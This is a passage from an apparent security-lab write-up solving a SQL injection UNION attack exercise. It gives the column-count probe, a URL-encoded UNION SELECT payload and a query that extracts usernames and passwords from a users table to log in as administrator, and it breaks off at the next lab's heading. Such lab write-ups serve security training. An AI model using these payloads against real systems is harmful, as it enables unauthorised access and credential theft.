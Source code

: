 
---

### LAB 9 - SQL injection UNION attack, retrieving data from other tables

### Lab Description

![image](https://github.com/user-attachments/assets/7b492e4b-6fc8-40c7-89f2-10ebeef73dbc)

### Solution

#### Determine number of columns

**ORDER BY 3** shows an error , it means the web application retreives 2 columns in the query

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' ORDER BY 4 --
```

![image](https://github.com/user-attachments/assets/d21c977a-4b5d-4495-a4e4-d4fa361507f2)

Both column first and second return text

```sql

/filter?category=Gifts'+union+all+select+NULL,NULL--

```

![image](https://github.com/user-attachments/assets/3bbb887e-d737-4e03-8e18-e42851275984)

Since both the columns contain text data, we can retreive username and password from the users table of the database without any concatination method.


```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION ALL SELECT username,password FROM users --

```

![image](https://github.com/user-attachments/assets/3c5aa6dd-ae69-46c8-a78b-bdc19646ad91)

Thus we got all the usernames & password stored in the database.
Now we can login as administrator !

![image](https://github.com/user-attachments/assets/343a3b1c-205f-4850-b76e-0fcf491709d6)


---

### LAB 10 - SQL injection UNION attack, retrieving multiple values in a single column

### Lab Description
